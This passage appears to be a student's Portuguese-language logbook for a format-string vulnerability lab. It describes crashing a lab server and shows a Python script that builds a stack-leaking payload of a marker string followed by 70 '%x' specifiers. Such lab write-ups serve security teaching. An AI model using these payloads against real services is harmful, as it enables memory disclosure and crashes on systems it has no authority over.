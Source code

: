 <div <div align="justify">
<p>
Ao gerar o 'badfile' e enviar para o servidor, este 'crashou', como se pode ver na imagem abaixo:

![Crash](uploads/logbook7P1.png)
</p>

<p>
Considerando que o myprintf() não imprimiu os smileys nem a mensagem "Returned properly", podemos concluir que o programa 'crashou'.
</div>

## Task 2: Printing Out the Server Program’s Memory
### 2.A: Stack data
>The goal is to print out the data on the stack. How many %x format specifiers
do you need so you can get the server program to print out the first four bytes of your input? You
can put some unique numbers (4 bytes) there, so when they are printed out, you can immediately tell.
This number will be essential for most of the subsequent tasks, so make sure you get it right.

<div <div align="justify">
<p>
De forma a descobrir o número de %x necessários para imprimir os primeiros 4 bytes do input, precisavamos de utilizar um input ao qual sabiamos o valor em hexadecimal. Assim decidimos utilizar esta string '0000' pois sabiamos que o seu valor em hexadecimal era '0x30303030'. Com isto, conseguimos construir o nosso 'input' que seria constituido de '0000' seguido de um número de %x suficiente (no nosso caso utilizamos 70) para imprimir os primeiros 4 bytes do input. O script que utilizamos para construir o nosso 'input' foi o seguinte:
</p>
</div>

```python

#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte string at offset 0
content[0:4]  =  ("0000").encode('latin-1')

# This line shows how to construct a string s with 70 of ".%.8x"
s =".%.8x"*70

# The line shows how to store the string s at offset 4 after overwriting the 4-byte string above
fmt  = (s).encode('latin-1')
```